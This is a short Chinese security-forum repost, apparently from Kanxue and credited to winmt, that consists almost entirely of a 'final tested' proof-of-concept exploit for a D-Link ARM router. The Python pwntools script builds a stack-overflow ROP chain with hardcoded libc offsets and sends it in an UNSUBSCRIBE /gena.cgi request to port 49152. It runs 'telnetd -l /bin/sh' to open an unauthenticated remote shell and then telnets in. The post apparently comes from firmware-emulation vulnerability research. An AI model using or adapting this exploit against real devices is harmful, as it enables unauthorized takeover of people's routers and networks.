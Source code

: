    
  
2022.5.7更新：FAP项目作者已经修复了D-LINK系列高版本arm路由无法仿真模拟的问题，下面给出的是最终测试通过的POC。  
```
# python3
from pwn import *
from socket import *
from os import *
from time import *
context(os = 'linux', arch = 'arm')
 
libc_base = 0xb6f7e000
 
s = socket(AF_INET, SOCK_STREAM)
 
cmd = b'telnetd -l /bin/sh;'
payload = b'a'*462
payload += b'a'*4 # r4
payload += b'a'*4 # r5
payload += b'a'*4 # r11
payload += p32(libc_base + 0x169a0) # pop {r2, r3, r4, pc};
payload += b'a'*4
payload += p32(libc_base + 0x406f8) # mov r0, r1; pop {r3, pc};
payload += b'a'*4
payload += p32(libc_base + 0x390fc) # pc add r1, sp, #0x2c; blx r3;
payload += b'a'*4 # r3
payload += p32(libc_base + 0x5a270) # pc system
payload += b'a'*(0x2c-8) # padding
payload += cmd
 
msg = b"UNSUBSCRIBE /gena.cgi?service=" + payload + b" HTTP/1.1\r\n"
msg += b"Host: localhost:49152\r\n"
msg += b"SID: 1\r\n\r\n"
 
s.connect((gethostbyname("192.168.0.1"), 49152))
s.send(msg)
 
sleep(1)
system("telnet 192.168.0.1 23")
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4QkWqGyH4D7P9u4icV0NxicaiaQZbx2sRZ2J4dWvhnD5fSUr2oLDciahztA/640?wx_fmt=jpeg "")  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4ueKdCdQJKmuTU69nnUnUSn7HiaYu63pBNOWxxW1ialSsLRoL8Y21dBoA/640?wx_fmt=png "")  
  
  
**看雪ID：winmt**  
  
https://bbs.pediy.com/user-home-949925.htm  
  
*本文由看雪论坛 winmt 原创，转载请注明来自看雪社区  
  
  